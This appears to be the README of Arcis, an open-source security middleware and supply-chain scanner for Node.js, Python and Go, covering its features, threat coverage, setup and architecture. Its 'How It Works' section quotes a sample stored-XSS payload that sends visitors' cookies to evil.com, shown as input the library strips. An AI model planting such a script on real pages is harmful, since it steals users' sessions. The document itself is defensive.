

> [!NOTE]
> **New: `arcis sca`: supply chain attack scanner. Detects compromised axios (npm) and litellm (PyPI) packages from the March 2026 supply chain attacks. [Learn more →](#cli-tools)**

<div align="center">



# Arcis: Security Middleware for Every Backend

[](https://www.npmjs.com/package/@arcis/node)
[](https://pypi.org/project/arcis/)
[](https://opensource.org/licenses/MIT)
[](https://github.com/Gagancm/arcis/actions/workflows/ci.yml)
[](https://github.com/Gagancm/arcis)

Arcis is a zero-dependency security middleware for Node.js, Python, and Go. <br />
One line of code protects your application against XSS, SQL injection, SSRF, CSRF, HPP, path traversal, and 15+ more attack types at runtime.

**Install once. Protect everything.**

---

</div>

## What is Arcis?

Arcis is a security middleware library that protects web applications against 20+ attack types at runtime. It works with **Node.js**, **Python**, and **Go**, with a consistent API across all three.

Arcis sits between incoming requests and your application code. It sanitizes input, detects attack patterns, enforces rate limits, sets security headers, and blocks malicious traffic before your code ever sees the request. Only proven, pattern-matched threats are blocked. Safe input passes through untouched.

**Why Arcis Exists**

To properly secure a web application today, you need 8-12 separate libraries: `helmet`, `DOMPurify`, `express-rate-limit`, `csurf`, `cors`, `hpp`, `express-validator`, and more. Each has its own API, its own configuration, and its own update cycle. Most developers skip half of them because the setup is too complex.

Arcis replaces all of those with one package and one line of code.

## Arcis in Action

```
User sends request → [ARCIS] → Your application code

At the checkpoint, Arcis:
  1. Rate limits — is this IP flooding requests?
  2. Bot detection — is this a known malicious bot?
  3. Sanitization — strip XSS, SQL injection, command injection, etc.
  4. CSRF verification — is this a legitimate form submission?
  5. Validation — does the input match expected schema?
      ↓
  Your code runs with clean, validated input
      ↓
  6. Response hardening — security headers, secure cookies, CORS, error scrubbing
```

## Features

- **One-line setup**: `app.use(arcis())` activates sanitization, rate limiting, and security headers. CSRF, CORS, cookies, bot detection, and error handling are opt-in middleware.
- **20+ attack types**: XSS, SQL/NoSQL injection, command injection, path traversal, SSTI, XXE, SSRF, CSRF, HPP, prototype pollution, header injection, open redirect, LDAP injection.
- **Zero dependencies**: Core is self-contained with no transitive dependencies. Go framework adapters (Gin, Echo) are optional.
- **Three-language parity**: Same API, same behavior, same test results across Node.js, Python, and Go. Enforced by shared test vectors.
- **Framework-agnostic core**: Sanitizers, validators, and encoders work with plain strings and objects. No framework lock-in. Adapters for Express, FastAPI, Flask, Django, Gin, and Echo.
- **Context-aware output encoding**: `encodeForHtml()`, `encodeForJs()`, `encodeForUrl()`, `encodeForCss()`, `encodeForAttribute()` for safe rendering in every output context.
- **Supply chain scanner**: `arcis sca` checks lockfiles, `node_modules`, and Python environments against a database of known compromised packages.
- **Static analysis CLI**: `arcis scan` and `arcis audit` flag unsafe patterns (`eval()`, `pickle.loads()`, `innerHTML`, SQL concat, SSRF sinks, weak crypto) across 14 rules.

## Threat Coverage

| Category | What it stops |
|----------|--------------|
| **XSS** | Script injection, event handlers, `javascript:` URIs, SVG/iframe payloads |
| **SQL Injection** | Keywords, boolean logic, comments, time-based blind (`SLEEP`, `BENCHMARK`, `pg_sleep`, `WAITFOR DELAY`) |
| **NoSQL Injection** | MongoDB operators (`$gt`, `$where`, `$regex`, `$function`, 35 blocked operators) |
| **Command Injection** | Shell metacharacters, dangerous commands, redirections, newline injection |
| **Path Traversal** | `../`, encoded variants (`%2e%2e`), double-encoding (`%252f`), null byte injection |
| **Prototype Pollution** | `__proto__`, `constructor`, `__defineGetter__`, 7 keys blocked (case-insensitive) |
| **SSTI** | Jinja2 `{{`, Twig, Freemarker, ERB/EJS, Pug/Jade, Python dunder chains |
| **XXE** | DOCTYPE, ENTITY, SYSTEM/PUBLIC references, CDATA, parameter entities |
| **JSONP Injection** | Callback whitelist validation, blocks XSS in JSONP responses |
| **HTTP Header Injection** | CRLF injection, response splitting, null bytes |
| **SSRF** | Private IPs, loopback, link-local, cloud metadata, decimal/octal/IPv6-mapped bypass detection |
| **Open Redirect** | Absolute URLs, `javascript:`, protocol-relative, backslash/control char bypass |
| **CSRF** | Double-submit cookie, token generation and validation |
| **Rate Limiting** | Per-IP, sliding window, token bucket, in-memory or Redis, `X-RateLimit-*` headers |
| **Bot Detection** | 80+ patterns, 7 categories (crawlers, scrapers, AI bots, etc.), behavioral signals |
| **Security Headers** | CSP, HSTS, X-Frame-Options, COOP, CORP, COEP, Origin-Agent-Cluster, X-DNS-Prefetch-Control (16 headers) |
| **Error Leakage** | Stack traces, DB errors, connection strings, internal IPs scrubbed in production |
| **CORS** | Whitelist-based origins, `null` origin blocked, `Vary: Origin` enforced |
| **Cookie Security** | HttpOnly, Secure, SameSite enforced on all cookies |
| **HTTP Parameter Pollution** | Normalizes duplicate query/body params (`?role=user&role=admin` → `role=admin`). Originals preserved in `queryPolluted` for auditing |
| **Input Validation** | Type checking, ranges, enums, email (disposable blocklist, typo suggestions, MX verify), mass assignment prevention |
| **PII Detection** | `scanPii()`, `redactPii()` detect and redact emails, phone numbers, SSNs, credit cards |

> [!IMPORTANT]
> **Defense-in-depth.** Arcis is a strong runtime security layer, but it does not replace parameterized queries, proper authentication, or TLS configuration. Use Arcis alongside your existing security practices.

## Table of Contents

- [What is Arcis?](#what-is-arcis)
- [Arcis in Action](#arcis-in-action)
- [Features](#features)
- [Threat Coverage](#threat-coverage)
- [Quick Start](#quick-start)
- [Framework Guides](#framework-guides)
- [Core Functions (Framework-Agnostic)](#core-functions-framework-agnostic)
- [CLI Tools](#cli-tools)
- [Architecture](#architecture)
- [Supported Frameworks](#supported-frameworks)
- [Test Suite](#test-suite)
- [How It Works](#how-it-works)
- [Comparison](#comparison)
- [Roadmap](#roadmap)
- [Disclaimers](#disclaimers)
- [Documentation](#documentation)
- [Contributing](#contributing)
- [License](#license)
- [Community & Support](#community--support)

---

## Quick Start

### Install

```bash
npm install @arcis/node          # Node.js
pip install arcis                # Python
go get github.com/GagancM/arcis  # Go
```

### Protect Your App (One Line)

**Node.js (Express):**
```js
import { arcis } from '@arcis/node';
app.use(arcis());
// Core active: sanitization, rate limiting, security headers.
// Optional: corsProtection(), csrfProtection(), botProtection(), cookieSecurity()
```

**Python (FastAPI):**
```python
from arcis import ArcisMiddleware
app.add_middleware(ArcisMiddleware)
```

**Python (Flask):**
```python
from arcis import Arcis
Arcis(app)
```

**Python (Django):**
```python
# settings.py → MIDDLEWARE
'arcis.django.ArcisMiddleware'
```

**Go (Gin):**
```go
r.Use(arcisgin.Middleware())
```

**Go (Echo):**
```go
e.Use(arcisecho.Middleware())
```

That's it. Your application is now protected against 20+ security flaws.

---

## Framework Guides

### Node.js (Express)

```js
import { arcis } from '@arcis/node';

const app = express();
app.use(arcis());
```

### Node.js (Fastify, Koa, Hono, etc.)

The core functions have zero framework dependencies. Use them directly:

```js
import { sanitizeObject } from '@arcis/node';

// Fastify
fastify.addHook('preHandler', async (request, reply) => {
  if (request.body) request.body = sanitizeObject(request.body);
  if (request.query) request.query = sanitizeObject(request.query);
});

// Koa
app.use(async (ctx, next) => {
  if (ctx.request.body) ctx.request.body = sanitizeObject(ctx.request.body);
  await next();
});

// Hono
app.use('*', async (c, next) => {
  const body = await c.req.json().catch(() => null);
  if (body) c.set('sanitizedBody', sanitizeObject(body));
  await next();
});
```

> Built-in adapters for Fastify, Koa, and Hono are on the roadmap. The core functions work today.

---

## Core Functions (Framework-Agnostic)

Every function below works with plain strings and objects. No `req`, `res`, or framework dependency. Works in Express, Fastify, Koa, Hono, Nest, Bun, Deno, serverless, or anywhere else.

```js
import {
  // Sanitize — strip dangerous patterns
  sanitizeString, sanitizeObject, sanitizeSsti, sanitizeXxe, sanitizeJsonpCallback,

  // Detect — flag threats without modifying input
  detectXss, detectSql, detectSsti, detectXxe, detectHeaderInjection,

  // Encode — context-aware output encoding
  encodeForHtml, encodeForAttribute, encodeForJs, encodeForUrl, encodeForCss,

  // Validate — block SSRF, open redirects, bad input
  validateUrl, validateRedirect, validateEmail,

  // Protect — PII, logging, utilities
  scanPii, redactPii, createSafeLogger,
} from '@arcis/node';
```

Subpath imports for tree-shaking:

```js
import { sanitizeString, encodeForHtml } from '@arcis/node/sanitizers';
import { createSafeLogger } from '@arcis/node/logging';
import { MemoryStore } from '@arcis/node/stores';
```

---

## CLI Tools

### Supply Chain Attack Scanner (`arcis sca`)

Detects compromised packages from known supply chain attacks. Scans your project's lockfiles, `node_modules`, `requirements.txt`, and Python environments for malicious versions and backdoor artifacts.

```bash
# Scan current project
arcis sca

# Scan a specific directory
arcis sca /path/to/project

# Also check globally installed packages and .pth backdoors
arcis sca --system

# List all threats in the database with sources and references
arcis sca --list-threats
```

**Currently detects:**

| Attack | Malicious Versions | Vector | Source |
|--------|-------------------|--------|--------|
| **axios (npm)**, March 2026 | 1.14.1, 0.30.4 | Trojanized dependency `plain-crypto-js` deploys a RAT via postinstall | [npm Security Advisory](https://github.com/axios/axios/security/advisories) |
| **litellm (PyPI)**, March 2026 | 1.82.7, 1.82.8 | Credential harvester + persistent `.pth` backdoor that survives `pip uninstall` | [PyPI Security Advisory](https://github.com/BerriAI/litellm/security/advisories) |

**What it checks:**
- `package-lock.json` (v1 and v3), `yarn.lock`, `node_modules/` on disk
- `requirements.txt`, `Pipfile.lock`, `poetry.lock`
- Currently installed pip packages (`--system`)
- Python `site-packages` for suspicious `.pth` backdoor files (`--system`)

Exit code 1 if compromised (CI-friendly).

**Offline by design.** No network calls, no telemetry, no external requests. The scanner reads your local files only. Every detection can be audited in [`arcis/data/threat-db.json`](packages/arcis-python/arcis/data/threat-db.json). New supply chain attacks are added as they're publicly disclosed, each with a source advisory link.

---

### Vulnerability Scanner & Static Analysis

```bash
# Scan HTTP endpoints for injection vulnerabilities
arcis scan http://localhost:5000

# Static analysis audit (14 rules for unsafe code patterns)
arcis audit /path/to/project --language python --severity high
```

Detects: `eval()`, `exec()`, `pickle.loads()`, `yaml.load()` without SafeLoader, `.innerHTML`, `document.write()`, `bypassSecurityTrust*()`, JWT without algorithm check, and more.

Supported languages: `python`, `javascript`, `typescript`

---

## Architecture

Arcis separates **core security logic** from **framework adapters**:

```
┌──────────────────────────────────────────────────────────────┐
│                     SPECIFICATION LAYER                       │
│  spec/API_SPEC.md        — function contracts (the rules)    │
│  spec/TEST_VECTORS.json  — expected behaviors (the tests)    │
│  packages/core/patterns.json — regex patterns (the detection)│
└────────────┬──────────────────┬───────────────────┬──────────┘
             │                  │                   │
      ┌──────▼──────┐   ┌──────▼──────┐    ┌───────▼──────┐
      │   CORE      │   │   CORE      │    │   CORE       │
      │  Node.js    │   │  Python     │    │    Go        │
      │  (TS)       │   │             │    │              │
      │  Sanitizers │   │  Sanitizers │    │  Sanitizers  │
      │  Validators │   │  Validators │    │  Validators  │
      │  Rate limit │   │  Rate limit │    │  Rate limit  │
      │  Logger     │   │  Logger     │    │  Logger      │
      └──────┬──────┘   └──────┬──────┘    └───────┬──────┘
             │                  │                   │
      ┌──────▼──────┐   ┌──────▼──────┐    ┌───────▼──────┐
      │  ADAPTERS   │   │  ADAPTERS   │    │  ADAPTERS    │
      │  Express    │   │  FastAPI    │    │  Gin         │
      │             │   │  Flask      │    │  Echo        │
      │             │   │  Django     │    │  net/http    │
      └─────────────┘   └─────────────┘    └──────────────┘
```

### Processing Pipeline

```
Request arrives
    │
    ▼
[1] Rate Limiting ─── too many requests? → 429
    │
    ▼
[2] Bot Detection ─── known malicious bot? → 403
    │
    ▼
[3] Input Sanitization ─── strip XSS, SQL, NoSQL, path traversal,
    │                       command injection, SSTI, XXE, JSONP,
    │                       header injection, prototype pollution
    ▼
[4] CSRF Verification ─── forged request? → 403
    │
    ▼
[5] Input Validation ─── invalid schema? → 400
    │
    ▼
    Your application code (clean, validated input)
    │
    ▼
[6] Response Hardening ─── security headers, secure cookies,
                           CORS policy, error scrubbing
    │
    ▼
Response sent to client
```

### Design Principles

| Principle | What It Means |
|-----------|--------------|
| **Contract-First** | Specification before code. `API_SPEC.md` → `TEST_VECTORS.json` → implementation. |
| **Zero Dependencies** | Self-contained. No transitive dependencies. Zero supply chain risk. |
| **Fail Open** | If infrastructure (Redis) fails, allow requests through. Availability > denial. |
| **Defensive Defaults** | Secure out of the box. Users opt OUT of protection, not in. |
| **Remove Then Encode** | Strip dangerous patterns before encoding. Encoding first hides them from pattern matching. |
| **Cross-SDK Parity** | Same input → same output in all three languages. Enforced by shared test vectors. |
| **Idempotent** | `sanitize(sanitize(x)) === sanitize(x)`. Safe input is never corrupted. |

---

## Supported Frameworks

| SDK | Built-in Adapters | Core Functions | Status |
|-----|-------------------|----------------|--------|
| **Node.js** | Express | Work with any framework | Stable |
| **Python** | Flask, FastAPI, Django | Work standalone | Stable |
| **Go** | net/http, Gin, Echo | Work standalone | Beta |

**Node.js:** Built-in adapters for Fastify, Koa, and Hono are planned. The core functions already work with these frameworks today.

---

## Test Suite

All SDKs are tested against a shared set of test vectors (`TEST_VECTORS.json`) to enforce identical behavior across languages.

| SDK | Tests | Framework | Status |
|-----|-------|-----------|--------|
| Node.js | 1,298 | vitest | All passing |
| Python | 1,011 | pytest | All passing |
| Go | 483+ | go test -race | All passing |
| **Total** | **2,792+** | | |

---

## How It Works

All SDKs load security patterns from a shared `patterns.json` at runtime. A shared specification (`API_SPEC.md`) and test vectors (`TEST_VECTORS.json`) enforce identical behavior across languages.

**Example: without Arcis**

A user posts this comment:
```
Great article! <script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```
That script runs in every visitor's browser and steals their session cookie.

**With Arcis**, the stored value becomes:
```
Great article!
```
The script is stripped. The rest of the comment is saved normally.

---

## Comparison

| Capability | Arcis | Helmet | DOMPurify | express-rate-limit | Arcjet | Aikido Zen |
|-----------|-------|--------|-----------|-------------------|--------|------------|
| XSS sanitization | Yes | No | Yes | No | No | Yes |
| SQL injection | Yes | No | No | No | No | Yes |
| Rate limiting | Yes | No | No | Yes | Yes | Yes |
| Security headers | Yes | Yes | No | No | Yes | No |
| CORS | Yes | No | No | No | No | No |
| CSRF | Yes | No | No | No | No | Yes |
| Bot detection | Yes | No | No | No | Yes | Yes |
| Input validation | Yes | No | No | No | No | No |
| SSRF prevention | Yes | No | No | No | No | Yes |
| Multi-language | 3 SDKs | Node only | Browser only | Node only | 4 SDKs | Node + Python |
| Zero dependencies | Yes | Yes | No | No | No | No |
| Open Source | Yes | Yes | Yes | Yes | Freemium | Paid |
| CLI scanner | Yes | No | No | No | No | Yes |

---

## Roadmap

### Completed (v1.0 to v1.4)

- 20+ security flaw coverage (runtime + detection)
- 3 SDKs (Node.js, Python, Go) at full parity
- 7 framework adapters (Express, FastAPI, Flask, Django, Gin, Echo, net/http)
- 3 rate limiting algorithms (fixed, sliding, token bucket)
- Redis store support
- `arcis scan` + `arcis audit` + `arcis sca` CLI tools
- Context-aware output encoding (HTML body, attributes, JS, CSS, URL)
- COOP, CORP, COEP cross-origin isolation headers
- HPP (HTTP Parameter Pollution) protection
- CSRF hardening (double-submit cookie + HMAC)
- LDAP injection protection
- SSTI and XXE sanitization across all 3 SDKs
- Security bypass hardening (Unicode normalization, decimal/octal IP encoding, surrogate pairs)
- 2,792+ tests, published on npm + PyPI

### Planned

- Security Score: `arcis scan --score` returns an actionable 0-100 score
- AI Crawler Detection: block GPTBot, ClaudeBot, etc.
- Advanced Rate Limiting: IPv6 subnet grouping, penalty/reward, dynamic limits
- Runtime Telemetry: dashboard showing attacks blocked, top vectors, trending threats
- GitHub Action: automatic security checks on every PR
- VS Code Extension: real-time security warnings while coding

For full roadmap details, see the [Wiki](https://github.com/Gagancm/arcis/wiki).

---

## Disclaimers

### What Arcis Cannot Replace

Arcis is a strong defense layer, but it is not a silver bullet:

| Concern | Why Middleware Isn't Enough | What You Still Need |
|---------|---------------------------|---------------------|
| SQL injection | Arcis detects and strips known SQL patterns from input. It does **not** enforce parameterized queries. Regex detection is a complementary layer, not a substitute. | Always use parameterized queries or an ORM. Arcis is defense-in-depth, not your primary SQL defense. |
| Rate limiting | Arcis rate limits at the application layer (per-process, with optional Redis for distributed). It does **not** replace proxy-level or load-balancer-level limiting. | Use nginx/Cloudflare/ALB rate limiting as your first line. Arcis catches what slips through. |
| Business logic flaws | Only your code knows your business rules | Application-specific validation |
| Authentication | Arcis protects auth flows but doesn't implement auth | Use a proper auth library (Passport, Auth0, etc.) |
| Secrets management | Infrastructure concern, not middleware | Use environment variables or a secrets manager |
| HTTPS/TLS | Server configuration | Configure your web server or load balancer |

### Sanitization Approach

Arcis uses regex-based pattern matching for attack detection. This is a deliberate trade-off: zero dependencies and minimal overhead, at the cost of not having a full HTML/SQL parser.

**SQL injection specifically:** Arcis strips known SQL attack patterns from user input as a defense-in-depth layer. This is **not a replacement for parameterized queries**. It is an additional barrier. Your database layer should always use parameterized queries or a safe ORM.

**Rate limiting specifically:** Application-level rate limiting protects against floods reaching your application code. For high-traffic production systems, this should complement proxy-level or CDN-level rate limiting (nginx, Cloudflare, AWS ALB), not replace it. Arcis supports Redis-backed distributed rate limiting for multi-instance deployments.

---

## Documentation

Detailed configuration, API reference, Redis setup, granular middleware usage, and architecture docs are in the [Wiki](https://github.com/Gagancm/arcis/wiki).

---

## Contributing

1. Fork the repo and create your branch from `nwl` (the active development branch)
2. All PRs target `nwl` (`main` is release-only)
3. All changes must pass existing tests (CI runs automatically on PRs)
4. New features require test cases aligned with `spec/TEST_VECTORS.json`
5. Pattern changes in `packages/core/patterns.json` must be reflected in all SDKs

- **Report bugs** via [GitHub Issues](https://github.com/Gagancm/arcis/issues)
- **Suggest features** via [GitHub Discussions](https://github.com/Gagancm/arcis/discussions)

---

## License

Arcis Core is released under the [MIT License](LICENSE).

You are free to use, modify, and distribute Arcis in any project, commercial or otherwise, with no restrictions.

---

## Community & Support

- **GitHub**: [github.com/Gagancm/arcis](https://github.com/Gagancm/arcis)
- **npm**: [@arcis/node](https://www.npmjs.com/package/@arcis/node)
- **PyPI**: [arcis](https://pypi.org/project/arcis/)
- **Wiki**: [Documentation](https://github.com/Gagancm/arcis/wiki)
